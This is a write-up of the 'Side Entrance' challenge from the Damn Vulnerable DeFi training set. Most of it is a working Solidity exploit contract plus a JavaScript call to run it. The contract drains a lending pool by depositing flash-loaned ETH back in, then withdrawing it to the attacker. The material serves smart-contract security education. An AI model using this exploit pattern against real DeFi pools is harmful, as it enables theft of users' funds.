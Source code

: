 A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/side-entrance)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v3.0.0/test/side-entrance/side-entrance.challenge.js)
___
## Solution:
It is important to note that we can deposit the amount received after flash loan, thereby passing the necessary checks and at the same time, to get the necessary balance in the system. After that we can withdraw.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
interface ISideEntranceLenderPool {
    function deposit() external payable;
    function withdraw() external;
    function flashLoan(uint256 amount) external;
}

contract SideEntrancePwn {
    address public attaker;
    ISideEntranceLenderPool public pool;
    constructor (address _pool) {
        pool = ISideEntranceLenderPool(_pool);
        attaker = msg.sender;
    }
    function pwn() external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value:msg.value}();
    }

    receive() external payable {
        selfdestruct(payable(attaker));
        // payable(attaker).send(address(this).balance);
    }
}
```

```js
pwn = await (await ethers.getContractFactory('SideEntrancePwn', player)).deploy(pool.address);

await pwn.pwn();
```

